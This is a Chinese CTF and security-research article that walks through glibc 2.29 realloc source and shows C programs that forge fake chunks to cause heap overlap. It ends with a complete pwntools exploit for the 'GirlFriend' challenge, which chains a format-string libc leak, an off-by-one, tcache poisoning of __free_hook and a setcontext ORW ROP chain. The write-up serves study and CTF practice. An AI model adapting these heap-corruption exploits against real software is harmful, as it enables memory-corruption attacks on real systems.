# glibc中realloc函数源码分析与利用-先知社区

> **来源**: https://xz.aliyun.com/news/17419  
> **文章ID**: 17419

---

[TOC]

# realloc源码

```
# glibc-2.29
void * __libc_realloc (void *oldmem, size_t bytes)
{
  mstate ar_ptr;
  INTERNAL_SIZE_T nb;         /* padded request size */

  void *newp;             /* chunk to return */

  void *(*hook) (void *, size_t, const void *) =
    atomic_forced_read (__realloc_hook);
  if (__builtin_expect (hook != NULL, 0))
    return (*hook)(oldmem, bytes, RETURN_ADDRESS (0)); // 和free、malloc函数一样先检查realloc_hook

#if REALLOC_ZERO_BYTES_FREES
  if (bytes == 0 && oldmem != NULL) // oldmem不为空，size=0，结果等同free函数
    {
      __libc_free (oldmem); return 0;
    }
#endif

  /* realloc of null is supposed to be same as malloc */
  if (oldmem == 0) // oldmem为空，结果等同malloc函数
    return __libc_malloc (bytes);

  /* chunk corresponding to oldmem */
  const mchunkptr oldp = mem2chunk (oldmem);
  /* its size */
  const INTERNAL_SIZE_T oldsize = chunksize (oldp);

  if (chunk_is_mmapped (oldp))
    ar_ptr = NULL;
  else
    {
      MAYBE_INIT_TCACHE ();
      ar_ptr = arena_for_chunk (oldp);
    }

  /* Little security check which won't hurt performance: the allocator
     never wrapps around at the end of the address space.  Therefore
     we can exclude some size values which might appear here by
     accident or by "design" from some intruder.  We need to bypass
     this check for dumped fake mmap chunks from the old main arena
     because the new malloc may provide additional alignment.  */
  if ((__builtin_expect ((uintptr_t) oldp > (uintptr_t) -oldsize, 0)
       || __builtin_expect (misaligned_chunk (oldp), 0))
      && !DUMPED_MAIN_ARENA_CHUNK (oldp))
      malloc_printerr ("realloc(): invalid pointer");

  checked_request2size (bytes, nb);

  if (chunk_is_mmapped (oldp))
    {
      /* If this is a faked mmapped chunk from the dumped main arena,
     always make a copy (and do not free the old chunk).  */
      if (DUMPED_MAIN_ARENA_CHUNK (oldp))
    {
      /* Must alloc, copy, free. */
      void *newmem = __libc_malloc (bytes);
      if (newmem == 0)
        return NULL;
      /* Copy as many bytes as are available from the old chunk
         and fit into the new size.  NB: The overhead for faked
         mmapped chunks is only SIZE_SZ, not 2 * SIZE_SZ as for
         regular mmapped chunks.  */
      if (bytes > oldsize - SIZE_SZ)
        bytes = oldsize - SIZE_SZ;
      memcpy (newmem, oldmem, bytes);
      return newmem;
    }

      void *newmem;

#if HAVE_MREMAP
      newp = mremap_chunk (oldp, nb);
      if (newp)
        return chunk2mem (newp);
#endif
      /* Note the extra SIZE_SZ overhead. */
      if (oldsize - SIZE_SZ >= nb)
        return oldmem;                         /* do nothing */

      /* Must alloc, copy, free. */
      newmem = __libc_malloc (bytes);
      if (newmem == 0)
        return 0;              /* propagate failure */

      memcpy (newmem, oldmem, oldsize - 2 * SIZE_SZ);
      munmap_chunk (oldp);
      return newmem;
    }

  if (SINGLE_THREAD_P)
    {
      newp = _int_realloc (ar_ptr, oldp, oldsize, nb);
      assert (!newp || chunk_is_mmapped (mem2chunk (newp)) ||
          ar_ptr == arena_for_chunk (mem2chunk (newp)));

      return newp;
    }
    
    
```

```
# glibc-2.29
void* _int_realloc(mstate av, mchunkptr oldp, INTERNAL_SIZE_T oldsize,
         INTERNAL_SIZE_T nb)
{
  mchunkptr        newp;            /* chunk to return */
  INTERNAL_SIZE_T  newsize;         /* its size */
  void*          newmem;          /* corresponding user mem */

  mchunkptr        next;            /* next contiguous chunk after oldp */

  mchunkptr        remainder;       /* extra space at end of newp */
  unsigned long    remainder_size;  /* its size */

  /* oldmem size */
  if (__builtin_expect (chunksize_nomask (oldp) <= 2 * SIZE_SZ, 0)
      || __builtin_expect (oldsize >= av->system_mem, 0))
    malloc_printerr ("realloc(): invalid old size");

  check_inuse_chunk (av, oldp);

  /* All callers already filter out mmap'ed chunks.  */
  assert (!chunk_is_mmapped (oldp));

  next = chunk_at_offset (oldp, oldsize);
  INTERNAL_SIZE_T nextsize = chunksize (next);
  if (__builtin_expect (chunksize_nomask (next) <= 2 * SIZE_SZ, 0)
      || __builtin_expect (nextsize >= av->system_mem, 0))
    malloc_printerr ("realloc(): invalid next size");

  if ((unsigned long) (oldsize) >= (unsigned long) (nb)) // 将堆调小
    {
      /* already big enough; split below */
      newp = oldp;
      newsize = oldsize;
    }

  else // 将对调大
    {
      /* Try to expand forward into top  从top chunk中直接分割空间*/
      if (next == av->top &&
          (unsigned long) (newsize = oldsize + nextsize) >=
          (unsigned long) (nb + MINSIZE))
        {
          set_head_size (oldp, nb | (av != &main_arena ? NON_MAIN_ARENA : 0));
          av->top = chunk_at_offset (oldp, nb);
          set_head (av->top, (newsize - nb) | PREV_INUSE);
          check_inuse_chunk (av, oldp);
          return chunk2mem (oldp); // 拿到空间可以直接返回
        }

      /* Try to expand forward into next chunk;  split off remainder below */
      else if (next != av->top &&
               !inuse (next) &&
               (unsigned long) (newsize = oldsize + nextsize) >=
               (unsigned long) (nb))
        {
          newp = oldp;
          unlink_chunk (av, next); // 这里unlink前也没有对size和prev_size检查(一直到最新的glibc-2.40)，但是在unlink函数里面有单独针对unlink的chunk的prev_size和size的检查
        }

      /* allocate, copy, free */
      else // 不与top chunk相邻，且相邻的高地址处的chunk被标记为未被释放，所以直接从新malloc分配chunk
        {
          newmem = _int_malloc (av, nb - MALLOC_ALIGN_MASK); // 这里直接_int_malloc，所以不会从tcache中拿chunk
          if (newmem == 0)
            return 0; /* propagate failure */

          newp = mem2chunk (newmem);
          newsize = chunksize (newp);

          /*
             Avoid copy if newp is next chunk after oldp.
           */
          if (newp == next) // 申请到的chunk，是原先chunk的相邻高地址处的chunk，就不做复制，直接将前后两个chunk合并起来(size加起来，ptr用原来chunk的地址)，然后对新的整合起来的chunk进行分割
            {
              newsize += oldsize; // 前后两个chunk的大小加一起
              newp = oldp;
            }
          else
            {
          	 memcpy (newmem, chunk2mem (oldp), oldsize - SIZE_SZ); // 复制原来chunk里面的内容到新分配的chunk中
              _int_free (av, oldp, 1); // free掉原来的chunk
              check_inuse_chunk (av, newp);
              return chunk2mem (newp); // 直接返回
            }
        }
    }

  /* If possible, free extra space in old or extended chunk */

  assert ((unsigned long) (newsize) >= (unsigned long) (nb));

  remainder_size = newsize - nb; // 计算切割后剩余chunk的size大小

  if (remainder_size < MINSIZE)   /* not enough extra to split off 剩余的空间不足以切割*/
    {
      set_head_size (newp, newsize | (av != &main_arena ? NON_MAIN_ARENA : 0));
      set_inuse_bit_at_offset (newp, newsize);
    }
  else   /* split remainder 切割走多余的chunk，并free掉*/
    {
      remainder = chunk_at_offset (newp, nb); // 拿到剩余chunk的地址
      set_head_size (newp, nb | (av != &main_arena ? NON_MAIN_ARENA : 0)); // 给申请的新的chunk更新size字段
      set_head (remainder, remainder_size | PREV_INUSE |
                (av != &main_arena ? NON_MAIN_ARENA : 0)); // 给剩余的chunk，即要释放的chunk安排chunk头
      /* Mark remainder as inuse so free() won't complain */
      set_inuse_bit_at_offset (remainder, remainder_size); // 将剩余的chunk标记为被使用，这样在free的时候就相当于正常情况下的free，避免出错
      _int_free (av, remainder, 1); // _int_free 释放掉剩余的chunk
    }

  check_inuse_chunk (av, newp);
  return chunk2mem (newp);
}
```

### 测试

下面考虑`bin中没有剩余的chunk情况`：

1. `oldmem为空` ：

```
#include <stdlib.h> 
#include <stdio.h>
#include <string.h>

int main()
{
    void *p,*q=NULL;
    p = malloc(0x10);
    q = realloc(q,0x20);
    return 0;
}
```

传入的ptr为空：



直接分配chunk，与malloc相同：



1. `oldmem不为空，size = 0` ：

```
#include <stdlib.h> 
#include <stdio.h>
#include <string.h>
int main()
{
    void *p,*q=NULL;
    p = malloc(0x10);
    q = realloc(p,0);
    return 0;
}
```

先用malloc分配一个chunk：再传入先前chunk地址，size给为0：结果chunk被释放：与free函数功能相同，并返回NULL。

1. `oldmem不为空，size > oldsize` ，着重看\_int\_realloc代码：

```
#include <stdlib.h>                                      
#include <stdio.h>
#include <string.h>
int main()
{
    void *p,*q;
    p = malloc(0x10);
    q = realloc(p,0x20);
    return 0;
}

```

先分配较小的chunk，与top chunk相邻：再使用realloc调整chunk：`直接从top chunk中取出所需的空间` 看一下这个从top chunk中拿空间的过程：先检查realloc\_hook指针（同malloc和free函数）：最后进入`_int_realloc函数`，oldsize和nb都作为参数：判断`下一个chunk是不是top chunk`，`top chunk的大小`加上`oldsize` 够不够满足 `要分配的大小nb + minsize_0x20` （这里要判断够不够分割）：随后开始从top chunk中分割：先把size字段更新：再把`新的top chunk地址`放到`main_arena的top字段`中：最后更新top chunk的size字段，完成扩展（这里原先的top chunk的size没有清空）：

1. `oldmem不为空，size < oldsize` ，着重看\_int\_realloc代码：

```
#include <stdlib.h>                                      
#include <stdio.h>
#include <string.h>
int main()
{
    void *p,*q;
    p = malloc(0x30);
    q = realloc(p,0x20);
    return 0;
}
```

直接进入\_int\_realloc对堆块进行调整：这里判断oldsize 和 nb(要申请的size)，如果足够大的话就要切割，newp和newsize都是原来的chunk：这里计算切割后剩余的空间，发现不够，所以还是用原来的空间，无法进行调整：所以，最后相当于申请了一个0x20的大小但是得到了0x40的空间，但是chunk任然是原先的0x40的chunk：这里调整一下源码，让切割的空间足够多：

```
#include <stdlib.h>                                      
#include <stdio.h>
#include <string.h>
int main()
{
    void *p,*q;
    p = malloc(0x50);
    q = realloc(p,0x20);
    return 0;
}
```

到判断切割的部分，这一次判断足够切割：



最后从原有的chunk中切割走了多余的部分，`多余的部分直接free掉`：



* 取出`剩余chunk`的地址remainder

* 更新`原来的chunk`头的size字段

* 更新remainder的size字段

* `free 释放`remainder处的chunk

下面考虑`bin中存在剩余的chunk情况`：

1. 如果bin中有剩余的chunk，而ptr为空 ==> 等于malloc，也就是像malloc一样从bin中取出chunk

2. 主要看有chunk时，`_int_realloc函数`对其中chunk的处理：`size > oldsize` ，并且`相邻的高地址处存在处于bin中的chunk` ，看\_int\_realloc函数如何调整：

```
#include <stdlib.h>                                      
#include <stdio.h>
#include <string.h>
int main()
{
    void *p,*q;
    long *ptr;
    p = malloc(0x50);
    q = malloc(0x70);
    ptr = p - 0x250;
    *ptr = 0x0007000000000000; // 填满tcache
    free(q); // 释放进入fastbin
    q = realloc(p,0x70);
    return 0;
}

```

没有与top chunk相邻，直接跳过：这里由于tcache中的chunk会被一直标记为未被释放，所以只能重新\_int\_malloc（这里不会从tcache中拿chunk，所以前面控制chunk释放进入fastbin中）：这里将fastbin中的chunk拿出：由于申请到的chunk是原先chunk的相邻高地址处的chunk，所以不复制原先chunk中的内容：变向合并原来的chunk（newsize相加，ptr用原先相邻低地址处的chunk），然后进行切割（这样可以避免复制chunk中的内容，因为新的chunk比原先的chunk大，可以直接扩展原先的chunk即可）：切割完后释放掉剩余的chunk：

1. 如果`相邻的高地址处的chunk`被标记为`被释放`（其他条件和上面一样），\_int\_realloc会如何调整：

```
#include <stdlib.h>                                      
#include <stdio.h>
#include <string.h>
int main()
{
    void *p,*q,*tmp;
    long *ptr;
    p = malloc(0x50); // 用来调整
    q = malloc(0x88); // 释放进入unsorted bin中
    tmp = malloc(0x70); // 与top chunk隔开
    
    ptr = p - 0x250 + 0x8;
    *ptr = 0x7; // 填满tcache 0x90
    free(q); // 释放进入unsorted bin中
    q = realloc(p,0x70);
    return 0;
}
```

顺利进入unsorted bin中，被蓝色的chunk标记为被释放，然后调整第一个chunk：这里判断，ptr相邻高地址处的chunk释放标记为被释放（绿色chunk被蓝色chunk标记为被释放）：待调整的chunk的oldsize 和其相邻高地址处`被标记已经释放的chunk` 的size 需要大于申请的大小nb（这样才能保证unlink合并后有足够的空间调整）：将nextchunk取出后，再进行切割：进入最后的切割流程，更新两个chunk的size字段：注意：但凡存在unlink，必定会伴随着`overlapping的利用`这个`unlink 合并`的特点是：将释放的chunk和`待调整的chunk`合并，从`释放的chunk`中分出一部分给`待调整的chunk`，剩下的chunk被释放掉利用：将`释放的chunk的size字段改大`，覆盖到下一个chunk的fd 和 bk字段，并在下一个chunk中伪造好通过unlink判断的数据(prev\_size的判断)。然后再调整第一个chunk(realloc)，这时会对释放的chunk进行unlink脱链，然后切割，重点再切割完成后，其`剩余的chunk`由于前面被改大了，所以会覆盖下一个chunk的fd 和bk字段，再申请这个`剩余chunk` 的时就能改写其下一个chunk的fd 和 bk字段。同时要伪造chunk的prev\_inuse位 和 prev\_size字段，来unlink进行堆块的重叠。

1. 使用\_int\_realloc的unlink造overlapping例子（这里的unlink只能`往相邻的高地址`处的chunk进行合并）：调试源码：

```
#include <stdlib.h>                                      
#include <stdio.h>
#include <string.h>
int main()
{
    void *p,*q,*tmp;
    long *ptr;
    p = malloc(0x50); // 用来调整
    q = malloc(0x88); // 释放进入unsorted bin中
    tmp = malloc(0x70); // 与top chunk隔开
    ptr = p - 0x8;
    *ptr = 0x81; // 修改chunk1的size
    ptr = p + 0x60 + 0x20;
    *(ptr-1) = 0x71; // fake_chunk
    *(ptr) = 0x4052d0; // fake_chunk -> fd
    *(ptr + 1) = 0x4052d0; // fake_chunk -> bk
    free(q); // 释放进入unsorted bin中
    
    ptr = tmp;
    *(ptr-1) = 0x80; // chunk3的size chunk2被释放，能进行unlink
    *(ptr-2) = 0x70; // chunk3的prev_size
    q = realloc(p,0x80);
    return 0;
}
```

目的是利用chunk1去造成chunk2的overlapping，因为一般realloc的题目不会同时给两个指针来存储地址，所以`只有一个指针来控制以一个chunk` ，所以无法直接在fd 和 bk字段伪造地址来绕过unlink检查（放入tcache中的chunk的fd和bk一般是不满足unlink检查的）。所以这里只能`在chunk2中伪造fake_chun`，并`伪造chunk1的size`，使得其能寻找到`fake_chunk作为naxtchunk` 。伪造后如下，修改size和prev\_size字段可以用off\_by\_null实现：下面调整chunk1，申请的size要大于改之后的size，才能往后进行unlink：这里unlink，针对解链的chunk的检查顺利通过（因为上面unlink的chunk --> next，是通过chunk1 + chunk1\_size 得到的，所以得到了我们伪造的fake\_chunk的地址）：unlink中的双向链表检查也通过，都是检查的fak\_chunk：unlink完成后进行切割：顺利将原来的chunk2的fd 和 bk 指针包含到，这时就能直接修改next字段，实现任意地址申请chunk：

## 例题：

题目地址：[[广东强网杯 2021 团队组]GirlFriend | NSSCTF](https://www.nssctf.cn/problem/635)

### 分析：

1. 有些花指令，先nop掉便于静态分析：

2. 选着没有grilfriend的话会先有一个格式化字符串的漏洞，但是有检查，可以用`%a`来绕过，任然可以拿到libc地址：

3. 进入到申请chunk的函数 ，必须要heaplist里面有值才能申请，所以只能选着 有grilfriend，最后存在一个off\_bu\_one的漏洞，能修改size字段中最低的一个字节，同时add限制只有16此机会：

4. show函数也只有一次机会，这里可以用来泄漏堆地址：

### 利用：

1. 申请三个chunk后，利用第一个chunk修改第二个chunk的size字段，将其改大，覆盖到第三个chunk的next字段：这里要申请chunk的话需要先将之前申请的chunk释放掉，将指针清空，然后再申请才会调用到\_\_libc\_malloc：

```
p.sendlineafter(b"end ?",str(89).encode())

add(0xf8,b"aaa") #1
free()      #2
add(0x100,b"aaa")   #3
free()
add(0x200,b"a"*0x50 + p64(0x170) + p64(0x200-0x50)) # 方便显示堆块
free()

# 利用格式化字符串泄漏libc地址
out()
p.sendlineafter(b"end ?",str(78).encode())
p.sendlineafter(b"reason",b"%a")

p.recvuntil(b"0x0.")
libc_base = int(p.recv(13).decode(),16) - 0x3EC7E3
success("libc_base   ==> " + hex(libc_base))

setcontext_addr    = libc_base + libc.sym["setcontext"] + 53
system_addr        = libc_base + libc.sym["system"]
free_hook_addr     = libc_base+libc.sym["__free_hook"]
IO_switch_to_wget_mode_addr = libc_base+libc.sym["_IO_switch_to_wget_mode"]
success("system_addr==>"+hex(system_addr))
success("free_hook_addr==>"+hex(free_hook_addr))

# IO_wfile_jumps_addr = libc_base + 0x1E4F80

success("setcontext_addr==>"    + hex(setcontext_addr))
success("IO_switch_to_wget_mode_addr==>"    + hex(IO_switch_to_wget_mode_addr))

open_addr = libc.sym['open']+libc_base
read_addr = libc.sym['read']+libc_base
write_addr = libc.sym['write']+libc_base
print(hex(read_addr))
# #pause()

pop_rdi_ret=libc_base + 0x000000000002164f
pop_rdx_ret=libc_base + 0x0000000000001b96
pop_rax_ret=libc_base + 0x000000000001b500
pop_rsi_ret=libc_base + 0x0000000000023a6a
ret= libc_base + 0x0000000000023a6a + 1

# pop_rdi_ret=libc_base + 0x00000000000215bf
# pop_rdx_ret=libc_base + 0x0000000000001b96
# pop_rax_ret=libc_base + 0x0000000000043ae8
# pop_rsi_ret=libc_base + 0x0000000000023eea
# ret= libc_base + 0x0000000000023eea + 1

# 修改size字段
add(0xf8,b"a"*0xf8 + b"\x71")
free()
```

这里将chunk的size改大，但是其任然位于0x110的tcache中：

1. 先申请再释放，再申请就能得到改打后的chunk了，直接覆盖到第三个chunk的size字段，改为free\_hook地址（这里并没有用到\_int\_realloc中的unlink），这里同时要将原本0x210的chunk的size字段修改为别的，不然后面再申请释放后任然在0x210的tcache，就会申请不到free\_hook：

```
# 利用overlapping 修改0x210chunk的next字段
add(0x100,b"FFFFFFF")
free()
add(0x168,b"a"*0x108 + p64(0xf0) + p64(free_hook_addr - 0x8))
free()
```



1. 申请到free\_hook，往上面写入setcontext + 51进行栈迁移，这里`直接往libc上写入ORW`，因为再去泄漏堆地址的话add申请堆块的次数不够用，往libc上些ORW，然后`栈迁移往libc上迁移`的效果是一样的：

```
# ORW
syscall = read_addr+15
flag = libc_base+0x3EDA28

# open(0,flag)
# orw =p64(pop_rdi_ret)+p64(flag)
# orw+=p64(pop_rsi_ret)+p64(0)
# orw+=p64(pop_rax_ret)+p64(2)
# orw+=p64(syscall)
orw =p64(pop_rdi_ret)+p64(flag)
orw+=p64(pop_rsi_ret)+p64(0)
orw+=p64(open_addr)

# read(3,heap+0x1010,0x30) 
orw+=p64(pop_rdi_ret)+p64(3)
orw+=p64(pop_rsi_ret)+p64(libc_base+0x3EDA90)     # 从地址 读出flag
orw+=p64(pop_rdx_ret)+p64(0x30)
orw+=p64(read_addr)     

# write(1,heap+0x1010,0x30)
orw+=p64(pop_rdi_ret)+p64(1)
orw+=p64(pop_rsi_ret)+p64(libc_base+0x3EDA90)     # 从地址 读出flag
orw+=p64(pop_rdx_ret)+p64(0x30)
orw+=p64(write_addr) + b"./flag\x00"

rsp = free_hook_addr + 0xa0 # 写在libc上orw的首地址

# 申请到free_hook 填入setcontext进行栈迁移
add(0x200,b"aaa") # 取出原本0x210chunk
free()		#放进别的tcache entries里面
#pause()

payload = p64(0) + p64(setcontext_addr)
payload = payload.ljust(0xa0,b"\x00")
payload += p64(rsp) + p64(ret) # rsp rcx传参
payload += orw
add(0x200,payload)	#申请到free_hook往里面一次写入
# pause()
free()
```

原先的chunk被放入0xf0中，之后就能正常申请到包含free\_hook的chunk(这里即使count为0也是能申请到的，因为libc-2.27不是根据count来判断tcache中是否还存在剩余的chunk，而是根据`头指针是否为空`进行判断，源码如下)：直到`libc-2.30`的时候，才根据count来判断tcache中是否还有剩余的chunk：成功向free\_hook中写入setcontext + 51 和 ORW：

1. 这题值涉及到了\_\_libc\_realloc函数的使用，什么情况等同于 libc\_malloc、libc\_free，还没有利用到里面的unlink进行堆块的重叠，里面的堆块重叠和free函数里面的有一定的区别，触发的条件也有区别。

2. 完整的EXP：

```
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')

def debug():
    gdb.attach(p)

choose = 2
if choose == 1 :    # 远程
    success("远程")
    p = remote("node4.anna.nssctf.cn",28916)
    libc = ELF('./lib/libc_2.27-3ubuntu1.4_amd64.so')
    # libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc-2.27.so')
    # libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.39-0ubuntu8_amd64/libc.so.6')
    # elf = ELF("./pwn")
else :              # 本地
    success("本地")
    p = process("./service")
    libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.27-3ubuntu1.5_amd64/libc-2.27.so')
    debug()
    # libc = ELF('/home/kali/Desktop/source_code/glibc-2.38_lib/lib/libc.so.6')
    # ld = ELF("ld.so") 
    # elf = ELF("./pwn")

def add(size,content):
    p.sendlineafter(b'>>',b'1')
    # p.sendlineafter(b':',str(index).encode())
    p.sendlineafter(b'size',str(size).encode())
    p.sendafter(b'data',content)
    
def out():
    p.sendlineafter(b'>>',b'3')

# def edit(index, size,content):
#     p.sendlineafter(b':',b'2')
#     p.sendlineafter(b':',str(index).encode())
#     p.sendlineafter(b':',str(size).encode())
#     p.sendafter(b':',content)

def show():
    p.sendlineafter(b'>>',b'4')
    # p.sendlineafter(b':',str(index).encode())

def free():
    p.sendlineafter(b'>>',b'1')
    p.sendlineafter(b'size',str(0).encode())

# def fd_glibc32(tcache_base,target_addr):
#     success("fake_addr==>"+hex(target_addr))
#     payload = p64(tcache_base^(target_addr))
#     return payload

p.sendlineafter(b"end ?",str(89).encode())

add(0xf8,b"aaa") #1
free()      #2
add(0x100,b"aaa")   #3
free()
add(0x200,b"a"*0x50 + p64(0x170) + p64(0x200-0x50))
free()

# 利用格式化字符串泄漏libc地址
out()
p.sendlineafter(b"end ?",str(78).encode())
p.sendlineafter(b"reason",b"%a")

p.recvuntil(b"0x0.")
libc_base = int(p.recv(13).decode(),16) - 0x3EC7E3
success("libc_base   ==> " + hex(libc_base))

setcontext_addr    = libc_base + libc.sym["setcontext"] + 53
system_addr        = libc_base + libc.sym["system"]
free_hook_addr     = libc_base+libc.sym["__free_hook"]
IO_switch_to_wget_mode_addr = libc_base+libc.sym["_IO_switch_to_wget_mode"]
success("system_addr==>"+hex(system_addr))
success("free_hook_addr==>"+hex(free_hook_addr))

# IO_wfile_jumps_addr = libc_base + 0x1E4F80

success("setcontext_addr==>"    + hex(setcontext_addr))
success("IO_switch_to_wget_mode_addr==>"    + hex(IO_switch_to_wget_mode_addr))

open_addr = libc.sym['open']+libc_base
read_addr = libc.sym['read']+libc_base
write_addr = libc.sym['write']+libc_base
print(hex(read_addr))
# #pause()

pop_rdi_ret=libc_base + 0x000000000002164f
pop_rdx_ret=libc_base + 0x0000000000001b96
pop_rax_ret=libc_base + 0x000000000001b500
pop_rsi_ret=libc_base + 0x0000000000023a6a
ret= libc_base + 0x0000000000023a6a + 1

# pop_rdi_ret=libc_base + 0x00000000000215bf
# pop_rdx_ret=libc_base + 0x0000000000001b96
# pop_rax_ret=libc_base + 0x0000000000043ae8
# pop_rsi_ret=libc_base + 0x0000000000023eea
# ret= libc_base + 0x0000000000023eea + 1

# 修改size字段
add(0xf8,b"a"*0xf8 + b"\x71")
free()


# 利用overlapping 修改0x210chunk的next字段
add(0x100,b"FFFFFFF")
free()
add(0x168,b"a"*0x108 + p64(0xf0) + p64(free_hook_addr - 0x8))
free()

# ORW
syscall = read_addr+15
flag = libc_base+0x3EDA28

# open(0,flag)
# orw =p64(pop_rdi_ret)+p64(flag)
# orw+=p64(pop_rsi_ret)+p64(0)
# orw+=p64(pop_rax_ret)+p64(2)
# orw+=p64(syscall)
orw =p64(pop_rdi_ret)+p64(flag)
orw+=p64(pop_rsi_ret)+p64(0)
orw+=p64(open_addr)

# read(3,heap+0x1010,0x30) 
orw+=p64(pop_rdi_ret)+p64(3)
orw+=p64(pop_rsi_ret)+p64(libc_base+0x3EDA90)     # 从地址 读出flag
orw+=p64(pop_rdx_ret)+p64(0x30)
orw+=p64(read_addr)     

# write(1,heap+0x1010,0x30)
orw+=p64(pop_rdi_ret)+p64(1)
orw+=p64(pop_rsi_ret)+p64(libc_base+0x3EDA90)     # 从地址 读出flag
orw+=p64(pop_rdx_ret)+p64(0x30)
orw+=p64(write_addr) + b"./flag\x00"

rsp = free_hook_addr + 0xa0

# 申请到free_hook 填入setcontext 和 ORW进行栈迁移
add(0x200,b"aaa")
free()

payload = p64(0) + p64(setcontext_addr)
payload = payload.ljust(0xa0,b"\x00")
payload += p64(rsp) + p64(ret)
payload +=orw
add(0x200,payload)
pause()
free()

p.interactive()

```



还有一种解法就是像上面的例子那样，利用\_int\_realloc的unlink向后造成overlapping，来覆盖next字段，实现任意地址申请chunk。
